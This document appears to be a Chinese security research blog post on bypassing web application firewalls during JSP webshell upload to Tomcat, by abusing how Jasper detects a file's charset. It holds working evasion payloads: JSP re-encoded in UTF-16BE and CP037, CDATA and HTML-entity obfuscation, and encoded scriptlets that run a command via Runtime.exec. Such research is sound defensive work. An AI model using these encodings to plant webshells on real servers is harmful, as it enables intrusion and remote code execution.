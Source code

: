 # 1.开个头

事情是这样的，某一天，笔者闲着无聊，对着Tomcat的示例文件到处点点，希望寻找出点什么，意外发现Tomcat的示例文件中一些有趣的示例：

![](WAF_Bypass之wesbhell上传-jsp与tomcat/tomcat_jsp_xml_example.png)

随后笔者翻开Tomcat的解析代码，对其进行了一番静态代码审阅，果然有蹊跷，后面又调试看了看。

# 2 代码要点简析

对于脚本jsp文件，会通过EncodingDetector进行字符集类型的探测，该处代码要点较多，也是主逻辑，所以整片代码放上来了。

apache-tomcat-9.0.35/lib/jasper.jar!/org/apache/jasper/compiler/ParserController.class：determineSyntaxAndEncoding

![](WAF_Bypass之wesbhell上传-jsp与tomcat/determineSyntaxAndEncoding2.png)

编码探测过程在该类初始化方法中进行，首先会使用processBom方法，根据文件的前4个字节探测字符集类型，这里的代码和xerces的Magic Charset中的字符集类型探测代码有着异曲同工之妙...；之后会使用getPrologEncoding方法尝试获取文件的declare charset，declare charset优先级高于magic charset。

apache-tomcat-9.0.35/lib/jasper.jar!/org/apache/jasper/compiler/EncodingDetector.class

![](WAF_Bypass之wesbhell上传-jsp与tomcat/EncodingDetector.png)

processBom方法会调用parseBom方法根据文件头4个字节返回字符集类型：

![](WAF_Bypass之wesbhell上传-jsp与tomcat/processBom.png)

getPrologEncoding将文件流传入xml解析，底层还是用的xerces，如果编码类型为xerces不支持的，这里会暂时忽略掉异常。

![](WAF_Bypass之wesbhell上传-jsp与tomcat/getPrologEncoding.png)

但并非processBom或getPrologEncoding得到的字符集就能被成功，后续创建字符流读取器会检查自身是否支持这些字符集。

这一步中也会做字符集别名的映射查找，一番操作过后，如果该字符集未读取器不支持的，最后会抛出异常。如UTF-32BE字符集，在getPrologEncoding方法中会抛出异常（不支持），在processBom中虽然不会抛出异常，但是其过程中得到的字符集名称为ISO-10646-UCS-4。而在InputStreamReader中不支持该字符集，也无别名映射（想想也是，ISO-10646-UCS-4这个名字根本也无法判断大端小端，而且代码流程中也没有传递大小端这一变量）。

jdk1.8.0_191/src.zip!/java/nio/charset/Charset.java

![](WAF_Bypass之wesbhell上传-jsp与tomcat/flowToCharsetLoolup.png)



ParserController.class：determineSyntaxAndEncoding方法中，如果文件没有带BOM，会触发getPageEncodingForJspSyntax函数流程

apache-tomcat-9.0.30-src/java/org/apache/jasper/compiler/ParserController.java，getPageEncodingForJspSyntax

![](WAF_Bypass之wesbhell上传-jsp与tomcat/getPageEncodingForJspSyntax.png)

从代码来看，指令标签有好几种：

```
<jsp:directive.page  /> 
```

```
<%@ page  %>
```

声明字符编码的方式至少有两种：

```
pageEncoding="UTF-16be"
```

```
contentType="charset=utf-16be"
```

# 2 实战讲解

## 2.1 charset

通过阅读代码流程，我们可以得到如下表格，该表格用于Magic Charset方法，而XML的Declare Charset也可以使用，笔者在这里就不再描述了，参考笔者的关于xerces解析的文章即可 [WAF Bypass之xerces解析](https://www.anquanke.com/post/id/209826)。

![](WAF_Bypass之wesbhell上传-jsp与tomcat/magic_charset.png)

有如下原始JSP文件，jsp_xml.jsp:

```
<?xml version="1.0" encoding="UTF-8"?>
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
  version="1.2">
<jsp:directive.page contentType="text/html"/>
<jsp:declaration>
</jsp:declaration>
<jsp:scriptlet>
out.write("I'm turn1tup!");
</jsp:scriptlet>
<jsp:text>
</jsp:text>
</jsp:root>
```

使用UTF-16BE字符集进行编码：

```
%00%3C%00%3F%00x%00m%00l%00%20%00v%00e%00r%00s%00i%00o%00n%00%3D%00%22%001%00.%000%00%22%00%20%00e%00n%00c%00o%00d%00i%00n%00g%00%3D%00%22%00U%00T%00F%00-%001%006%00b%00e%00%22%00%3F%00%3E%00%0A%00%3C%00j%00s%00p%00%3A%00r%00o%00o%00t%00%20%00x%00m%00l%00n%00s%00%3A%00j%00s%00p%00%3D%00%22%00h%00t%00t%00p%00%3A%00/%00/%00j%00a%00v%00a%00.%00s%00u%00n%00.%00c%00o%00m%00/%00J%00S%00P%00/%00P%00a%00g%00e%00%22%00%0A%00%20%00%20%00v%00e%00r%00s%00i%00o%00n%00%3D%00%22%001%00.%002%00%22%00%3E%00%0A%00%3C%00j%00s%00p%00%3A%00d%00i%00r%00e%00c%00t%00i%00v%00e%00.%00p%00a%00g%00e%00%20%00c%00o%00n%00t%00e%00n%00t%00T%00y%00p%00e%00%3D%00%22%00t%00e%00x%00t%00/%00h%00t%00m%00l%00%22%00/%00%3E%00%0A%00%3C%00j%00s%00p%00%3A%00d%00e%00c%00l%00a%00r%00a%00t%00i%00o%00n%00%3E%00%0A%00%3C%00/%00j%00s%00p%00%3A%00d%00e%00c%00l%00a%00r%00a%00t%00i%00o%00n%00%3E%00%0A%00%3C%00j%00s%00p%00%3A%00s%00c%00r%00i%00p%00t%00l%00e%00t%00%3E%00%0A%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%0A%00%3C%00/%00j%00s%00p%00%3A%00s%00c%00r%00i%00p%00t%00l%00e%00t%00%3E%00%0A%00%3C%00j%00s%00p%00%3A%00t%00e%00x%00t%00%3E%00%0A%00%3C%00/%00j%00s%00p%00%3A%00t%00e%00x%00t%00%3E%00%0A%00%3C%00/%00j%00s%00p%00%3A%00r%00o%00o%00t%00%3E%00%0A
```

使用CP037进行编码：

```
Lo%A7%94%93%40%A5%85%99%A2%89%96%95%7E%7F%F1K%F0%7F%40%85%95%83%96%84%89%95%87%7E%7F%83%97%F0%F3%F7%7Fon%25L%91%A2%97z%99%96%96%A3%40%A7%94%93%95%A2z%91%A2%97%7E%7F%88%A3%A3%97zaa%91%81%A5%81K%A2%A4%95K%83%96%94a%D1%E2%D7a%D7%81%87%85%7F%25%40%40%A5%85%99%A2%89%96%95%7E%7F%F1K%F2%7Fn%25L%91%A2%97z%84%89%99%85%83%A3%89%A5%85K%97%81%87%85%40%83%96%95%A3%85%95%A3%E3%A8%97%85%7E%7F%A3%85%A7%A3a%88%A3%94%93%7Fan%25L%91%A2%97z%84%85%83%93%81%99%81%A3%89%96%95n%25La%91%A2%97z%84%85%83%93%81%99%81%A3%89%96%95n%25L%91%A2%97z%A2%83%99%89%97%A3%93%85%A3n%25%96%A4%A3K%A6%99%89%A3%85M%7F%C9%7D%94%40%A3%A4%99%95%F1%A3%A4%97Z%7F%5D%5E%25La%91%A2%97z%A2%83%99%89%97%A3%93%85%A3n%25L%91%A2%97z%A3%85%A7%A3n%25La%91%A2%97z%A3%85%A7%A3n%25La%91%A2%97z%99%96%96%A3n%25
```

编码方式可参考 https://github.com/turn1tup/scripts/blob/master/charset_test.py ：

![](WAF_Bypass之wesbhell上传-jsp与tomcat/charset_test_py.png)

对于以下代码，我们也可以对其进行编码

```
<% out.write("I/'m turn1tup!");  %>
```

使用UTF-16BE编码，需带BOM标识：

```
%FE%FF%00%3C%00%25%00%20%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%20%00%25%00%3E
```

## 2.2 XML特性

参考文章 [WAF Bypass之xerces解析](https://www.anquanke.com/post/id/209826)，这里举一些例子：

```jsp
<?xml version="1.0" encoding="UTF-8"?>
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
  version="1.2">
<jsp:directive.page contentType="text/html"/>
<jsp:declaration>
</jsp:declaration>
<jsp:scriptlet>
<![CDATA[o]]>u<![CDATA[t.writ]]><![CDATA[e]]>("I'm turn1tup!");
</jsp:scriptlet>
<jsp:text>
</jsp:text>
</jsp:root>

```

HTML实体编码，包括16进制、10进制、字符实体：

```jsp
<?xml version="1.0" encoding="UTF-8"?>
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
  version="1.2">
<jsp:directive.page contentType="text/html"/>
<jsp:declaration>
</jsp:declaration>
<jsp:scriptlet>
&#111;&#117;&#116;&#46;&#119;&#114;&#105;&#116;&#101;&#40;&#34;&#73;&#39;&#109;&#32;&#116;&#117;&#114;&#110;&#49;&#116;&#117;&#112;&#33;&#34;&#41;&#59;
</jsp:scriptlet>
<jsp:text>
</jsp:text>
</jsp:root>

```

## 2.3 PageEncoding

指令标签<%@方式：

```
<%@ page contentType="charset=utf-16be" %>%00%3C%00%25%00%20%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%20%00o%00u%00t%00.%00p%00r%00i%00n%00t%00%28%00R%00u%00n%00t%00i%00m%00e%00.%00g%00e%00t%00R%00u%00n%00t%00i%00m%00e%00%28%00%29%00.%00e%00x%00e%00c%00%28%00%22%00c%00a%00l%00c%00%22%00%29%00%29%00%3B%00%20%00%25%00%3E
```

指令标签<jsp:directive.page  /> 方式

```
<jsp:directive.page contentType="charset=utf-16be"/>%00%3C%00%25%00%20%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%20%00o%00u%00t%00.%00p%00r%00i%00n%00t%00%28%00R%00u%00n%00t%00i%00m%00e%00.%00g%00e%00t%00R%00u%00n%00t%00i%00m%00e%00%28%00%29%00.%00e%00x%00e%00c%00%28%00%22%00c%00a%00l%00c%00%22%00%29%00%29%00%3B%00%20%00%25%00%3E
```

PageEncoding声明方式

```
<jsp:directive.page pageEncoding="utf-16be"/>%00%3C%00%25%00%20%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%20%00o%00u%00t%00.%00p%00r%00i%00n%00t%00%28%00R%00u%00n%00t%00i%00m%00e%00.%00g%00e%00t%00R%00u%00n%00t%00i%00m%00e%00%28%00%29%00.%00e%00x%00e%00c%00%28%00%22%00c%00a%00l%00c%00%22%00%29%00%29%00%3B%00%20%00%25%00%3E
```


标签的位置也可以变化：

```
%00%3C%00%25%00%20%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%20%00o%00u%00t%00.%00p%00r%00i%00n%00t%00%28%00R%00u%00n%00t%00i%00m%00e%00.%00g%00e%00t%00R%00u%00n%00t%00i%00m%00e%00%28%00%29%00.%00e%00x%00e%00c%00%28%00%22%00c%00a%00l%00c%00%22%00%29%00%29%00%3B%00%20%00%25%00%3E<%@ page contentType="charset=utf-16be"
```

# 3 结语

好吧，还是有点意思。